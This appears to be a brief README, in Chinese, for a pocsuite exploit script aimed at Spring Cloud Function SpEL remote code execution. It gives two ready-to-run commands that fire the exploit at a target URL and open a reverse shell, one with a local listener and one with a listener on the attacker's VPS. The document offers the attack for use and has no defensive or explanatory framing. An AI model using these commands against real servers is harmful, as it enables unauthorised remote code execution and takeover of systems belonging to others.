


# 0x001 本地监听模式
```bash
pocsuite -r Spring-Cloud-Function-SpEL-RCE.py -u http://127.0.0.1:8080 --shell --lhost 0.0.0.0 --lport 6666
```


# 0x002 远程监听模式
```bash
pocsuite -r Spring-Cloud-Function-SpEL-RCE.py -u http://127.0.0.1:8080 --shell --lhost vps地址 --lport vps端口
```

